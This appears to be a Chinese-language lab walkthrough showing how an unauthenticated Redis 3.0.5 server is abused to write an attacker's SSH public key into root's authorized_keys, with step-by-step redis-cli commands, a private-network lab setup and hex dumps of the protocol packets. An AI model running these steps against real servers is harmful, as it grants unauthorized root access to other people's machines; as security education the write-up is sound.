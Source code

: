 
# Redis未授权访问写入ssh公钥获取服务器访问权限

Refer：http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/

## step 1. 准备实验环境

|角色|操作系统|IP地址|
|----|--------|------|
|被攻击方|CentOS 6.5|192.168.188.132|
|攻击方|Kali 2.0|192.168.188.131|

操作：

1. 攻击方与被攻击方都是root用户。
2. 确保攻击方与被攻击方网络连通（ping）及清除iptables防火墙规则（iptables -F）。
3. 在CentOS中安装Redis 3.0.5，并运行。（终端下输入以下命令）： 

下载，解压，编译:
```
$ wget http://download.redis.io/releases/redis-3.0.5.tar.gz
$ tar xzf redis-3.0.5.tar.gz
$ cd redis-3.0.5
$ make
```

二进制文件是编译完成后在src目录下. 运行如下:
```
$ src/redis-server
```

## step 2. 实施攻击前准备

1. 攻击方用ssh连接被攻击方，发现是需要密码登录。
```
ssh 192.168.188.132
```

![](ssh_fail.png)

2. 攻击方生成一对ssh公私钥。
```
ssh-keygen –t rsa
```

![](create_ssh_key.png)

## step 3. 攻击

**攻击者将生成公钥保存到被攻击方的/root/.ssh/ authorized_keys**

1. 攻击方访问被攻击方的Redis服务（若不指定端口，连接默认端口6379）。
 ```
 redis-cli –h 192.168.188.132
 ```

2. 攻击者设置被攻击方Redis的默认路径及数据库缓存文件。
 ```
 config set dir /root/.ssh
 config set dbfilename authorized_keys
 ```

3. 攻击者设置在被攻击方Redis设置一个字符串，用来保存公钥。
 ```
 set CrackR  “\n\n\n+生成的公钥+\n\n\n”
 ```

4. 攻击者保存数据快照到硬盘，即上一步的字符串CrackR保存到/
root/.ssh/ authorized_keys.
 ```
  save
 ```

5. 退出。
 ```
 exit
 ```
![](attack_cmd.png)


## step 4. 验证攻击

1. 攻击方用ssh连接被攻击方，成功登录。
```
ssh 192.168.188.132
```
![](ssh_success.png)

---

## 攻击流程图

![](attack_flow.png)

---

## Redis 通信报文分析

Redis使用TCP协议进行传输，默认开放端口6379，且默认无需授权便可登录。

1. Redis数据在TCP包数据部分，以*开头，后面跟着的数字代表Redis整个命令的字符串个数。

2. 以0x0d，0x0a作为分隔符

3. 将命令中的字符串分开，以单个字符串作为处理单元，转变为 $+数字（字符串长度）+分隔符+字符串+分隔符。


### config set dir /root/.ssh 设置Redis的默认路径

```
0000   2a 34 0d 0a 24 36 0d 0a 63 6f 6e 66 69 67 0d 0a  *4..$6..config..
0010   24 33 0d 0a 73 65 74 0d 0a 24 33 0d 0a 64 69 72  $3..set..$3..dir
0020   0d 0a 24 31 30 0d 0a 2f 72 6f 6f 74 2f 2e 73 73  ..$10../root/.ss
0030   68 0d 0a                                         h..
```

### config set dbfilename authorized_keys 设置数据库缓存文件

```
0000   2a 34 0d 0a 24 36 0d 0a 63 6f 6e 66 69 67 0d 0a  *4..$6..config..
0010   24 33 0d 0a 73 65 74 0d 0a 24 31 30 0d 0a 64 62  $3..set..$10..db
0020   66 69 6c 65 6e 61 6d 65 0d 0a 24 31 35 0d 0a 61  filename..$15..a
0030   75 74 68 6f 72 69 7a 65 64 5f 6b 65 79 73 0d 0a   uthorized_keys..
```

### set xxxx "\n\n\nssh-rsa key_pub\n\n\n"  设置一个字符串

```
0000   2a 33 0d 0a 24 33 0d 0a 73 65 74 0d 0a 24 36 0d  *3..$3..set..$6.
0010   0a 43 72 61 63 6b 52 0d 0a 24 34 30 31 0d 0a 0a  .CrackR..$401...
0020   0a 0a 73 73 68 2d 72 73 61 20 41 41 41 41 42 33  ..ssh-rsa AAAAB3
0030   4e 7a 61 43 31 79 63 32 45 41 41 41 41 44 41 51  NzaC1yc2EAAAADAQ
```


